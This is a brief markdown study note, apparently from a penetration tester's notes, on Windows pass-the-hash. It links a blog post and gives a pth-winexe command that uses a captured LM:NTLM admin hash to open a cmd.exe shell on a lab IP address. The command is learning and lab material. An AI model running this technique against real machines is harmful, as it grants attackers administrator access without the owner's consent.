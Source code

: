 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Concepts
  - Vulnerabilities
---
```

[Practical Usage of NTLM Hashes - ropnop blog](https://blog.ropnop.com/practical-usage-of-ntlm-hashes/#long-live-pth)

Use the full admin hash with pth-winexe to spawn a shell running as admin without needing to crack their password. 
Remember the full hash includes **both the LM and NTLM hash**, separated by a colon:

```
pth-winexe -U 'admin%hash' //10.10.181.132 cmd.exe
```